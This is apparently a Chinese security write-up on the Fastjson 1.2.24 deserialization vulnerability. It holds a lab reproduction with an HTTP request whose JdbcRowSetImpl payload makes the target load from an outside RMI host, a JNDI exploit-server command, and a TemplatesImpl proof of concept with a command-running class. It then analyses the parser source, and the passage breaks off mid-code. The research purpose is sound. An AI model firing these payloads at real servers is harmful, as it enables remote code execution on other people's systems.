+++
title= "Fastjson1.2.24反序列化漏洞"
slug= "fastjson-1.2.24-deserialization"
description= ""
date= "2025-10-16T21:15:30+08:00"
lastmod= "2025-10-16T21:15:30+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

版本限制为 <= 1.2.24 即可。

## 漏洞复现

使用vulhub，进行环境搭建

```bash
cd vulhub/fastjson/1.2.24-rce
docker compose up -d
```

访问 8090 端口服务，开启恶意服务

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/baozongwi" -A "154.36.152.109"
```

发送数据包

```http
POST / HTTP/1.1
Host: 154.36.152.109:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Cookie: JSESSIONID.b1f176ee=node014bva1kp2vq14rv5nqb9eyg0x0.node0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/json

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://154.36.152.109:1099/axpxbe",
        "autoCommit":true
    }
}
```

成功在tmp目录下创建文件



## 漏洞分析

### 了解

搭建环境进行本地的漏洞分析，jdk8u66，pom.xml 如下

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <fastjson.version>1.2.24</fastjson.version>
        <javassist.version>3.28.0-GA</javassist.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>${fastjson.version}</version>
        </dependency>

        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>${javassist.version}</version>
        </dependency>
    </dependencies>
</project>
```

先创建一个普通的User类，方便了解FJ的序列化和反序列化机制

```java
package org.Base;

public class User {
    private String name;
    private int id;

    public User(){
        System.out.println("无参构造");
    }

    public User(String name, int id) {
        System.out.println("有参构造");
        this.name = name;
        this.id = id;
    }

    @Override
    public String toString() {
        return "User{" +
                "name='" + name + '\'' +
                ", id=" + id +
                '}';
    }

    public String getName() {
        System.out.println("getName");
        return name;
    }

    public int getId() {
        System.out.println("getId");
        return id;
    }
    
    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }

    public void setId(int id) {
        System.out.println("setId");
        this.id = id;
    }
}
```

使用`JSON.toJSONString`来转换对象，

```java
package org.Base;

import com.alibaba.fastjson.JSON;

public class FastjsonTest1 {
    public static void main(String[] args) {
        User user = new User("baozongwi",1);
        String json = JSON.toJSONString(user);
        System.out.println(json);
    }
}
```

发现是可以转换成 json 字符串的，但是这里转换的只有属性的值，不包含类名，所以就不知道是哪个类进行的反序列化。



因此，就有了`@type`关键字标识的这个字符串是由哪个类序列化而来，在`JSON.toJSONString`的第二个参数`SerializerFeature.WriteClassName`会写下这个类的名字



而反序列化呢，有两个方法 parseObject 和 parse，跟进到最后都是到了

```java
public static Object parse(String text, int features) {
        if (text == null) {
            return null;
        } else {
            DefaultJSONParser parser = new DefaultJSONParser(text, ParserConfig.getGlobalInstance(), features);
            Object value = parser.parse();
            parser.handleResovleTask(value);
            parser.close();
            return value;
        }
    }
```

若 JSON 有 @type 字段（如`"@type":"com.example.User"`）：调用`ParserConfig.checkAutoType()`检查类是否允许加载。通过反射实例化目标类（可能触发静态代码块/构造方法）。我猜，这里也就是反序列化利用点了，写个 demo 更方便理解解析差异

```java
package org.Base;

import com.alibaba.fastjson.JSON;

public class FastjsonTest3 {
    public static void main(String[] args) {
        String json1 = "{\"@type\":\"org.Base.User\",\"id\":1,\"name\":\"baozongwi\"}";
        String json2 = "{\"id\":1,\"name\":\"baozongwi\"}";

        System.out.println(JSON.parseObject(json1));
        System.out.println("\n");
        System.out.println(JSON.parseObject(json1,User.class));
        System.out.println("\n");
        System.out.println(JSON.parseObject(json2, User.class));
        System.out.println("\n");
        System.out.println(JSON.parseObject(json2));
        System.out.println("\n");
        System.out.println(JSON.parse(json1));
        System.out.println("\n");
        System.out.println(JSON.parse(json2));
        System.out.println("\n");
    }
}
```

- 使用`JSON.parseObject`方法在第二个参数指定是哪个类就可以反序列化成功，但是在字符串中使用`@type:org.Base.User`指定类会调用此类的 getter 和 setter 方法，但是会转化为`JSONObject`对象。
- 使用`JSON.parse`方法无法在第二个参数中指定某个反序列化的类，它识别的是`@type`后指定的类

可以看到凡是反序列化成功的都调用了 setter 方法，那如果在 setter 方法中加入恶意代码呢



### TemplatesImpl

恶意类如下

```java
package org.Base;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Eval extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers)
            throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
            throws TransletException {}
}
```

Fastjson 默认只会反序列化 public 修饰的属性反序列化的时候需要给 parseObject\parse 的第二个参数赋值为 Feature.SupportNonPublicField 通过它才能操作私有字段。

还是看到 parse 方法

```java
public static Object parse(String text, int features) {
    if (text == null) {
        return null;
    } else {
        DefaultJSONParser parser = new DefaultJSONParser(text, ParserConfig.getGlobalInstance(), features);
        Object value = parser.parse();
        parser.handleResovleTask(value);
        parser.close();
        return value;
    }
}
```

跟进 DefaultJSONParser，我们是传入的 Object，所以看到这里

```java
public DefaultJSONParser(Object input, JSONLexer lexer, ParserConfig config) {
    this.dateFormatPattern = JSON.DEFFAULT_DATE_FORMAT;
    this.contextArrayIndex = 0;
    this.resolveStatus = 0;
    this.extraTypeProviders = null;
    this.extraProcessors = null;
    this.fieldTypeResolver = null;
    this.lexer = lexer;
    this.input = input;
    this.config = config;
    this.symbolTable = config.symbolTable;
    int ch = lexer.getCurrent();
    if (ch == 123) {
        lexer.next();
        ((JSONLexerBase)lexer).token = 12;
    } else if (ch == 91) {
        lexer.next();
        ((JSONLexerBase)lexer).token = 14;
    } else {
        lexer.nextToken();
    }

}
```

负责解析 json 字符，如果为`{`则赋值 token 为12，标记为 JSON 对象开始，如果是`[`赋值 token 为 14，标记为 JSON 数组开始。跟出，跟进到 parse

```java
public Object parse(Object fieldName) {
    JSONLexer lexer = this.lexer;
    switch (lexer.token()) {
        case 1:
        case 5:
        case 10:
        case 11:
        case 13:
        case 15:
        case 16:
        case 17:
        case 18:
        case 19:
        default:
            throw new JSONException("syntax error, " + lexer.info());
        case 2:
            Number intValue = lexer.integerValue();
            lexer.nextToken();
            return intValue;
        case 3:
            Object value = lexer.decimalValue(lexer.isEnabled(Feature.UseBigDecimal));
            lexer.nextToken();
            return value;
        case 4:
            String stringLiteral = lexer.stringVal();
            lexer.nextToken(16);
            if (lexer.isEnabled(Feature.AllowISO8601DateFormat)) {
                JSONScanner iso8601Lexer = new JSONScanner(stringLiteral);

                Date var11;
                try {
                    if (!iso8601Lexer.scanISO8601DateIfMatch()) {
                        return stringLiteral;
                    }

                    var11 = iso8601Lexer.getCalendar().getTime();
                } finally {
                    iso8601Lexer.close();
                }

                return var11;
            }

            return stringLiteral;
        case 6:
            lexer.nextToken();
            return Boolean.TRUE;
        case 7:
            lexer.nextToken();
            return Boolean.FALSE;
        case 8:
            lexer.nextToken();
            return null;
        case 9:
            lexer.nextToken(18);
            if (lexer.token() != 18) {
                throw new JSONException("syntax error");
            }

            lexer.nextToken(10);
            this.accept(10);
            long time = lexer.integerValue().longValue();
            this.accept(2);
            this.accept(11);
            return new Date(time);
        case 12:
            JSONObject object = new JSONObject(lexer.isEnabled(Feature.OrderedField));
            return this.parseObject((Map)object, fieldName);
        case 14:
            JSONArray array = new JSONArray();
            this.parseArray(array, (Object)fieldName);
            if (lexer.isEnabled(Feature.UseObjectArray)) {
                return array.toArray();
            }

            return array;
        case 20:
            if (lexer.isBlankInput()) {
                return null;
            }

            throw new JSONException("unterminated json string, " + lexer.info());
        case 21:
            lexer.nextToken();
            HashSet<Object> set = new HashSet();
            this.parseArray(set, (Object)fieldName);
            return set;
        case 22:
            lexer.nextToken();
            TreeSet<Object> treeSet = new TreeSet();
            this.parseArray(treeSet, (Object)fieldName);
            return treeSet;
        case 23:
            lexer.nextToken();
            return null;
    }
```

会到



负责解析键值对，跟进 parseObject 方法

```java
public final Object parseObject(Map object, Object fieldName) {
        JSONLexer lexer = this.lexer;
        if (lexer.token() == 8) {
            lexer.nextToken();
            return null;
        } else if (lexer.token() == 13) {
            lexer.nextToken();
            return object;
        } else if (lexer.token() != 12 && lexer.token() != 16) {
            throw new JSONException("syntax error, expect {, actual " + lexer.tokenName() + ", " + lexer.info());
        } else {
            ParseContext context = this.context;

            try {
                boolean setContextFlag = false;

                while(true) {
                    lexer.skipWhitespace();
                    char ch = lexer.getCurrent();
                    if (lexer.isEnabled(Feature.AllowArbitraryCommas)) {
                        while(ch == ',') {
                            lexer.next();
                            lexer.skipWhitespace();
                            ch = lexer.getCurrent();
                        }
                    }

                    boolean isObjectKey = false;
                    Object key;
                    if (ch == '"') {
                        key = lexer.scanSymbol(this.symbolTable, '"');
                        lexer.skipWhitespace();
                        ch = lexer.getCurrent();
                        if (ch != ':') {
                            throw new JSONException("expect ':' at " + lexer.pos() + ", name " + key);
                        }
                    } else {
                        if (ch == '}') {
                            lexer.next();
                            lexer.resetStringPosition();
                            lexer.nextToken();
                            if (!setContextFlag) {
                                if (this.context != null && fieldName == this.context.fieldName && object == this.context.object) {
                                    context = this.context;
                                } else {
                                    ParseContext contextR = this.setContext(object, fieldName);
                                    if (context == null) {
                                        context = contextR;
                                    }

                                    setContextFlag = true;
                                }
                            }

                            Map var38 = object;
                            return var38;
                        }

                        if (ch == '\'') {
                            if (!lexer.isEnabled(Feature.AllowSingleQuotes)) {
                                throw new JSONException("syntax error");
                            }

                            key = lexer.scanSymbol(this.symbolTable, '\'');
                            lexer.skipWhitespace();
                            ch = lexer.getCurrent();
                            if (ch != ':') {
                                throw new JSONException("expect ':' at " + lexer.pos());
                            }
                        } else {
                            if (ch == 26) {
                                throw new JSONException("syntax error");
                            }

                            if (ch == ',') {
                                throw new JSONException("syntax error");
                            }

                            if ((ch < '0' || ch > '9') && ch != '-') {
                                if (ch != '{' && ch != '[') {
                                    if (!lexer.isEnabled(Feature.AllowUnQuotedFieldNames)) {
                                        throw new JSONException("syntax error");
                                    }

                                    key = lexer.scanSymbolUnQuoted(this.symbolTable);
                                    lexer.skipWhitespace();
                                    ch = lexer.getCurrent();
                                    if (ch != ':') {
                                        throw new JSONException("expect ':' at " + lexer.pos() + ", actual " + ch);
                                    }
                                } else {
                                    lexer.nextToken();
                                    key = this.parse();
                                    isObjectKey = true;
                                }
                            } else {
                                lexer.resetStringPosition();
                                lexer.scanNumber();

                                try {
                                    if (lexer.token() == 2) {
                                        key = lexer.integerValue();
                                    } else {
                                        key = lexer.decimalValue(true);
                                    }
                                } catch (NumberFormatException var22) {
                                    throw new JSONException("parse number key error" + lexer.info());
                                }

                                ch = lexer.getCurrent();
                                if (ch != ':') {
                                    throw new JSONException("parse number key error" + lexer.info());
                                }
                            }
                        }
                    }

                    if (!isObjectKey) {
                        lexer.next();
                        lexer.skipWhitespace();
                    }

                    ch = lexer.getCurrent();
                    lexer.resetStringPosition();
                    if (key == JSON.DEFAULT_TYPE_KEY && !lexer.isEnabled(Feature.DisableSpecialKeyDetect)) {
                        String typeName = lexer.scanSymbol(this.symbolTable, '"');
                        Class<?> clazz = TypeUtils.loadClass(typeName, this.config.getDefaultClassLoader());
                        if (clazz != null) {
                            lexer.nextToken(16);
                            if (lexer.token() == 13) {
                                lexer.nextToken(16);

                                try {
                                    Object instance = null;
                                    ObjectDeserializer deserializer = this.config.getDeserializer(clazz);
                                    if (deserializer instanceof JavaBeanDeserializer) {
                                        instance = ((JavaBeanDeserializer)deserializer).createInstance(this, clazz);
                                    }

                                    if (instance == null) {
                                        if (clazz == Cloneable.class) {
                                            instance = new HashMap();
                                        } else if ("java.util.Collections$EmptyMap".equals(typeName)) {
                                            instance = Collections.emptyMap();
                                        } else {
                                            instance = clazz.newInstance();
                                        }
                                    }

                                    Object var57 = instance;
                                    return var57;
                                } catch (Exception e) {
                                    throw new JSONException("create instance error", e);
                                }
                            }

                            this.setResolveStatus(2);
                            if (this.context != null && !(fieldName instanceof Integer)) {
                                this.popContext();
                            }

                            if (object.size() > 0) {
                                Object newObj = TypeUtils.cast(object, clazz, this.config);
                                this.parseObject(newObj);
                                Object var55 = newObj;
                                return var55;
                            }

                            ObjectDeserializer deserializer = this.config.getDeserializer(clazz);
                            Object var54 = deserializer.deserialze(this, clazz, fieldName);
                            return var54;
                        }

                        object.put(JSON.DEFAULT_TYPE_KEY, typeName);
                    } else {
                        if (key == "$ref" && !lexer.isEnabled(Feature.DisableSpecialKeyDetect)) {
                            lexer.nextToken(4);
                            if (lexer.token() != 4) {
                                throw new JSONException("illegal ref, " + JSONToken.name(lexer.token()));
                            }

                            String ref = lexer.stringVal();
                            lexer.nextToken(13);
                            Object refValue = null;
                            if ("@".equals(ref)) {
                                if (this.context != null) {
                                    ParseContext thisContext = this.context;
                                    Object thisObj = thisContext.object;
                                    if (!(thisObj instanceof Object[]) && !(thisObj instanceof Collection)) {
                                        if (thisContext.parent != null) {
                                            refValue = thisContext.parent.object;
                                        }
                                    } else {
                                        refValue = thisObj;
                                    }
                                }
                            } else if ("..".equals(ref)) {
                                if (context.object != null) {
                                    refValue = context.object;
                                } else {
                                    this.addResolveTask(new ResolveTask(context, ref));
                                    this.setResolveStatus(1);
                                }
                            } else if ("$".equals(ref)) {
                                ParseContext rootContext;
                                for(rootContext = context; rootContext.parent != null; rootContext = rootContext.parent) {
                                }

                                if (rootContext.object != null) {
                                    refValue = rootContext.object;
                                } else {
                                    this.addResolveTask(new ResolveTask(rootContext, ref));
                                    this.setResolveStatus(1);
                                }
                            } else {
                                this.addResolveTask(new ResolveTask(context, ref));
                                this.setResolveStatus(1);
                            }

                            if (lexer.token() != 13) {
                                throw new JSONException("syntax error");
                            }

                            lexer.nextToken(16);
                            Object rootContext = refValue;
                            return rootContext;
                        }

                        if (!setContextFlag) {
                            if (this.context != null && fieldName == this.context.fieldName && object == this.context.object) {
                                context = this.context;
                            } else {
                                ParseContext contextR = this.setContext(object, fieldName);
                                if (context == null) {
                                    context = contextR;
                                }

                                setContextFlag = true;
                            }
                        }

                        if (object.getClass() == JSONObject.class) {
                            key = key == null ? "null" : key.toString();
                        }

                        Object value;
                        if (ch == '"') {
                            lexer.scanString();
                            String strValue = lexer.stringVal();
                            value = strValue;
                            if (lexer.isEnabled(Feature.AllowISO8601DateFormat)) {
                                JSONScanner iso8601Lexer = new JSONScanner(strValue);
                                if (iso8601Lexer.scanISO8601DateIfMatch()) {
                                    value = iso8601Lexer.getCalendar().getTime();
                                }

                                iso8601Lexer.close();
                            }

                            object.put(key, value);
                        } else {
                            if ((ch < '0' || ch > '9') && ch != '-') {
                                if (ch == '[') {
                                    lexer.nextToken();
                                    JSONArray list = new JSONArray();
                                    if (fieldName != null && fieldName.getClass() == Integer.class) {
                                        boolean var59 = true;
                                    } else {
                                        boolean var10000 = false;
                                    }

                                    if (fieldName == null) {
                                        this.setContext(context);
                                    }

                                    this.parseArray(list, (Object)key);
                                    if (lexer.isEnabled(Feature.UseObjectArray)) {
                                        value = list.toArray();
                                    } else {
                                        value = list;
                                    }

                                    object.put(key, value);
                                    if (lexer.token() == 13) {
                                        lexer.nextToken();
                                        Map var52 = object;
                                        return var52;
                                    }

                                    if (lexer.token() != 16) {
                                        throw new JSONException("syntax error");
                                    }
                                    continue;
                                }

                                if (ch != '{') {
                                    lexer.nextToken();
                                    value = this.parse();
                                    if (object.getClass() == JSONObject.class) {
                                        key = key.toString();
                                    }

                                    object.put(key, value);
                                    if (lexer.token() == 13) {
                                        lexer.nextToken();
                                        Map list = object;
                                        return list;
                                    }

                                    if (lexer.token() != 16) {
                                        throw new JSONException("syntax error, position at " + lexer.pos() + ", name " + key);
                                    }
                                    continue;
                                }

                                lexer.nextToken();
                                boolean parentIsArray = fieldName != null && fieldName.getClass() == Integer.class;
                                JSONObject input = new JSONObject(lexer.isEnabled(Feature.OrderedField));
                                ParseContext ctxLocal = null;
                                if (!parentIsArray) {
                                    ctxLocal = this.setContext(context, input, key);
                                }

                                Object obj = null;
                                boolean objParsed = false;
                                if (this.fieldTypeResolver != null) {
                                    String resolveFieldName = key != null ? key.toString() : null;
                                    Type fieldType = this.fieldTypeResolver.resolve(object, resolveFieldName);
                                    if (fieldType != null) {
                                        ObjectDeserializer fieldDeser = this.config.getDeserializer(fieldType);
                                        obj = fieldDeser.deserialze(this, fieldType, key);
                                        objParsed = true;
                                    }
                                }

                                if (!objParsed) {
                                    obj = this.parseObject((Map)input, key);
                                }

                                if (ctxLocal != null && input != obj) {
                                    ctxLocal.object = object;
                                }

                                this.checkMapResolve(object, key.toString());
                                if (object.getClass() == JSONObject.class) {
                                    object.put(key.toString(), obj);
                                } else {
                                    object.put(key, obj);
                                }

                                if (parentIsArray) {
                                    this.setContext(obj, key);
                                }

                                if (lexer.token() == 13) {
                                    lexer.nextToken();
                                    this.setContext(context);
                                    Map var58 = object;
                                    return var58;
                                }

                                if (lexer.token() != 16) {
                                    throw new JSONException("syntax error, " + lexer.tokenName());
                                }

                                if (parentIsArray) {
                                    this.popContext();
                                } else {
                                    this.setContext(context);
                                }
                                continue;
                            }

                            lexer.scanNumber();
                            if (lexer.token() == 2) {
                                value = lexer.integerValue();
                            } else {
                                value = lexer.decimalValue(lexer.isEnabled(Feature.UseBigDecimal));
                            }

                            object.put(key, value);
                        }

                        lexer.skipWhitespace();
                        ch = lexer.getCurrent();
                        if (ch != ',') {
                            if (ch != '}') {
                                throw new JSONException("syntax error, position at " + lexer.pos() + ", name " + key);
                            }

                            lexer.next();
                            lexer.resetStringPosition();
                            lexer.nextToken();
                            this.setContext(value, key);
                            Map refValue = object;
                            return refValue;
                        }

                        lexer.next();
                    }
                }
            } finally {
                this.setContext(context);
            }
        }
    }
```

很长，不过我们只需要注意两个地方



解析 key，还有就是如果解析到`@type`



他会反射加载类，也就是 AutoType 的实现，到了这里我认为基本的静态分析 gadget 就结束了。我们使用 TemplatesImpl 构造，会触发其 getter 方法，也就是 getOutputProperties 然后触发 newTransformer。

写出poc

```java
package org.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import javassist.ClassPool;

public class TestPoc {
    public static void main(String[] args) throws Exception {
        byte[] bytecodes = ClassPool.getDefault().get(org.Base.Eval.class.getName()).toBytecode();

        String base64Bytecodes = java.util.Base64.getEncoder().encodeToString(bytecodes);

        String payload = String.format(
                "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
                        "\"_name\":\"\"," +
                        "\"_tfactory\":{}," +
                        "\"_bytecodes\":[\"%s\"]",
                base64Bytecodes
        );
        JSON.parseObject(payload, Feature.SupportNonPublicField);
    }
}
```

开始调试

```java
at com.alibaba.fastjson.parser.deserializer.FieldDeserializer.setValue(FieldDeserializer.java:60)
at com.alibaba.fastjson.parser.deserializer.DefaultFieldDeserializer.parseField(DefaultFieldDeserializer.java:83)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.parseField(JavaBeanDeserializer.java:773)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:600)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:188)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:184)
at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:368)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1327)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1293)
at com.alibaba.fastjson.JSON.parse(JSON.java:137)
at com.alibaba.fastjson.JSON.parse(JSON.java:193)
at com.alibaba.fastjson.JSON.parseObject(JSON.java:197)
at TestPoc.main(TestPoc.java:18)
```

跟到这里的时候我看到了`method.invoke(object, value);`但是没能成功到这个点

```java
public void setValue(Object object, Object value) {
    if (value != null || !this.fieldInfo.fieldClass.isPrimitive()) {
        try {
            Method method = this.fieldInfo.method;
            if (method != null) {
                if (this.fieldInfo.getOnly) {
                    if (this.fieldInfo.fieldClass == AtomicInteger.class) {
                        AtomicInteger atomic = (AtomicInteger)method.invoke(object);
                        if (atomic != null) {
                            atomic.set(((AtomicInteger)value).get());
                        }
                    } else if (this.fieldInfo.fieldClass == AtomicLong.class) {
                        AtomicLong atomic = (AtomicLong)method.invoke(object);
